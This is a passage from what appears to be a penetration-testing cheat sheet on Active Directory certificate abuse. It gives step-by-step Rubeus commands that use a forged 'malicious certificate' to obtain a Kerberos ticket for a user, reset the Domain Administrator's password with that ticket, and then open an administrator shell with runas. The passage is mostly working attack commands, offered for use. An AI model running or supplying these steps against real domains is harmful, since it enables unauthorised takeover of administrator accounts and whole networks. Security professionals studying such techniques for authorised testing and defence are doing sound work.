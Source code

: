 20. Finally click Finish then we could export the new malicious certificate.

<br />

### 2. Impersonate User using the Malicious Certificate

If we create a new certificate, we can use it to impersonate the privileged user.

1. **Request Kerberos TGT (Ticket Granting Ticket).**
    
    **[Rubeus.exe](https://github.com/GhostPack/Rubeus)** is useful to do for that. For details, see [Privilege Escalation with Kerberos](/exploit/windows/active-directory/kerberos-pentesting/#privilege-escalation-with-kerberos).
    
    ```powershell
    Rubeus.exe asktgt /user:tester /enctype:aes256 /certificate:vulncert.pfx /password:password /outfile:tester.kirbi /domain:labc.example.com /dc:<ip_of_the_domain_controller>
    ```
    
    After that, we should get the TGT (.kirbi file).  
    We can gain access using the TGT by changing the password of the DA account.
    
2. **Change the Password of the DA (Domain Administrator) Account.**
    
    ```powershell
    # changepw: Change the password of the target user
    # /ticket: Specify the TGT file (.kirbi) we've generated
    # /new: New password for impersonated user
    # /targetuser: Specify the Domain Administrator account name
    Rubeus.exe changepw /ticket:tester.kirbi /new:newpass /dc:<ip_of_the_domain_controller> /targetuser:abc.example.com\<da_user_name>
    ```
    
3. **Get the Administrator’s Shell**
    
    Using **runas** command, we can gain access to the Administrator’s account.  
    Use the new password which we’ve given the previous section in prompt.
    
    ```powershell
    runas /user:abc.example.com\<da_user_name> cmd.exe
    ```

<br /><br />

## Add Computer and PrivEsc

### 1. Add Computer to the Domain
